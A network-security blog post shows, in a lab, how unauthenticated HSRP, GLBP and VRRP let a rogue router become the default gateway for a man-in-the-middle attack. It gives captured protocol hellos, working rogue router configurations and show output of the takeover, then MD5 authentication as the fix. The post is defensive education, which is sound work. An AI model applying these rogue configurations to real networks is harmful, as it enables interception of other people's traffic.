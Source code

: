 ```yaml
---
title: Don't use FHRPs without Authentication
publication_date: 2019-02-17
category:
- Route/Switch
- Security
author: Brandon James
summary: FHRPs have obvious benefits, but a misconfiguration could allow an attacker to MiTM your traffic.
post_image: /static/images/fhrp_diagram1.png
---
```

You are most likely running a first hop redundancy protocol somewhere in your network. If you aren't routing at the access layer and your running a traditional redundant core (ie you aren't using a switch virtualization platform such as Cisco's VSS), one of those places is probably your user facing SVIs. If you aren't using *encrypted* authentication on your FHRP, you're putting your enterprise at risk. 

As a bit of a proof of concept, I've put together the following to show how FHRPs can be used as a channel to launch a Man-in-the-Middle attack. 

[![FHRP Diagram](/static/images/fhrp_diagram1.png "FHRP Diagram")](/static/images/fhrp_diagram1.png)

In the above environment we have two friendly routers on the left. Each router has three interfaces participating in FHRPs. Those interfaces are each plugged into a switch named for the FHRP running on said interfaces. To the right, we have our malicious routers ready to play MitM with our enterprise traffic.

_Note: In most cases this will only allow a partial MitM attack, traffic sent from the users will go to the malicious router, but traffic sent to the user will still need to come from one of the original routers. Regardless, this is still a huge security risk_

Interface configurations from R1 and R2 follow:

```
R1#sh run | beg interface Gigabit
interface GigabitEthernet0/0
 ip address 10.0.0.2 255.255.255.0
 no ip redirects
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 preempt
!
interface GigabitEthernet1/0
 ip address 10.0.1.2 255.255.255.0
 no ip redirects
 glbp 1 ip 10.0.1.1
 glbp 1 preempt
 negotiation auto
!
interface GigabitEthernet2/0
 ip address 10.0.2.2 255.255.255.0
 negotiation auto
 vrrp 1 ip 10.0.2.1

R2#sh run | beg interface Gigabit
interface GigabitEthernet0/0
 ip address 10.0.0.3 255.255.255.0
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 priority 50
 standby 1 preempt
!
interface GigabitEthernet1/0
 ip address 10.0.1.3 255.255.255.0
 glbp 1 ip 10.0.1.1
 glbp 1 priority 50
 glbp 1 preempt
 negotiation auto
!
interface GigabitEthernet2/0
 ip address 10.0.2.3 255.255.255.0
 negotiation auto
 vrrp 1 ip 10.0.2.1
 vrrp 1 priority 50
```

### Gathering Data

The three major FHRPs are VRRP, HSRP and GLBP. All three of them use multicast to send protocol advertisements. This means that your switches are happily forwarding these advertisements to anyone who is willing to listen. Our malicious actors are aware of this and start taking packet captures:

Malicious_HSRP captures the following being multicast to 224.0.0.12:

```
Cisco Hot Standby Router Protocol
    Group State TLV: Type=1 Len=40
        Version: 2
        Op Code: Hello (0)
        State: Standby (5)
        IP Ver.: IPv4 (4)
        Group: 1
        Identifier: ca:02:2a:cc:00:08 (ca:02:2a:cc:00:08)
        Priority: 50
        Hellotime: Default (3000)
        Holdtime: Default (10000)
        Virtual IP Address: 10.0.0.1
    Text Authentication TLV: Type=3 Len=8
        Authentication Data: Default (cisco)
```

 Malicious_GLBP captures the following being multicast to 224.0.0.102:

```
Gateway Load Balancing Protocol
    Version?: 1
    Unknown1: 0
    Group: 1
    Unknown2: 0000
    Owner ID: ca:01:2a:bd:00:1c (ca:01:2a:bd:00:1c)
    TLV l=28, t=Hello
        Type: Hello (1)
        Length: 28
        Unknown1-0: 00
        VG state?: Active (32)
        Unknown1-1: 00
        Priority: 100
        Unknown1-2: 0000
        Helloint: 3000
        Holdint: 10000
        Redirect: 600
        Timeout: 14400
        Unknown1-3: 0000
        Address type: IPv4 (1)
        Address length: 4
        Virtual IPv4: 10.0.1.1
    TLV l=20, t=Request/Response?
        Type: Request/Response? (2)
        Length: 20
        Forwarder?: 1
        VF state?: Active (32)
        Unknown2-1: 00
        Priority: 167
        Weight: 100
        Unknown2-2: 6338400258abcd
        Virtualmac: Cisco_00:01:01 (00:07:b4:00:01:01)
```

Note: The built in protocol filter for GLBP in wireshark doesn't seem to have information on all the fields. However, all the information we require is visible (Group, IP and Priority).

Malicious_VRRP captures the following being multicast to 224.0.0.18:

```
Virtual Router Redundancy Protocol
    Version 2, Packet type 1 (Advertisement)
    Virtual Rtr ID: 1
    Priority: 100 (Default priority for a backup VRRP router)
    Addr Count: 1
    Auth Type: No Authentication (0)
    Adver Int: 1
    Checksum: 0x6efb [correct]
    [Checksum Status: Good]
    IP Address: 10.0.2.1
```

### Launching the Attack

Now that our malicious actors have gathered the required information, they are ready to attack. The process is very simple.

First the malicious routers change their default gateways to be either of the friendly routers actual IP addresses, then they configure their interface with matching FHRP settings, with the exception of the priority value, which should be set to a better (higher) value than the current active FHRP router.

The static route and interface configurations for the malicious routers follows:

```
Malicious_HSRP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.0.2
Malicious_HSRP#sh run int gi0/0
Building configuration...

Current configuration : 218 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.0.254 255.255.255.0
 standby version 2
 standby 1 ip 10.0.0.1
 standby 1 priority 150
 standby 1 preempt

Malicious_GLBP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.1.2
Malicious_GLBP#sh run int gi0/0
Building configuration...

Current configuration : 190 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.1.254 255.255.255.0
 glbp 1 ip 10.0.1.1
 glbp 1 priority 150
 glbp 1 preempt

Malicious_VRRP#sh run | i route
ip route 0.0.0.0 0.0.0.0 10.0.2.2
Malicious_VRRP#sh run int gi0/0
Building configuration...

Current configuration : 174 bytes
!
interface GigabitEthernet0/0
 ip address 10.0.2.254 255.255.255.0
 vrrp 1 ip 10.0.2.1
 vrrp 1 priority 150
```

Note: in the case of GLBP, if load-balancing is configured (it's not by default), the weight may be adjusted in order to make the malicious router more preferred. In addition, clients on the GLBP may continue to use the old GLBP until their old ARP entries expire.

At this point the malicious routers are now the default-gateway for all devices on their segments:

```
Malicious_HSRP#sh standby brief 
                     P indicates configured to preempt.
                     |
Interface   Grp  Pri P State   Active          Standby         Virtual IP
Gi0/0       1    150 P Active  local           10.0.0.2        10.0.0.1


Malicious_GLBP#sh glbp brief  
Interface   Grp  Fwd Pri State    Address         Active router   Standby router
Gi0/0       1    -   150 Active   10.0.1.1        local           10.0.1.2
Gi0/0       1    1   -   Listen   0007.b400.0101  10.0.1.2        -
Gi0/0       1    2   -   Listen   0007.b400.0102  10.0.1.3        -
Gi0/0       1    3   -   Active   0007.b400.0103  local           -
 

Malicious_VRRP#sh vrrp brief 
Interface          Grp Pri Time  Own Pre State   Master addr     Group addr
Gi0/0              1   150 3414       Y  Master  10.0.2.254      10.0.2.1   
```

At this point the attacker can just sit back and watch the packets fly by.

### Solution

Fortunately, all three of the FHRPs support encrypted authentication and it can take as little as one line to configure. 

```
R1(config-if)#standby 1 authentication md5 key-string SECURE_KEY
R1(config-if)#glbp 1 authentication md5 key-string SECURE_KEY
R1(config-if)#vrrp 1 authentication md5 key-string SECURE_KEY
```

*Note: This note was originally on my personal blog. I've backdated the post to show the day it was originally written*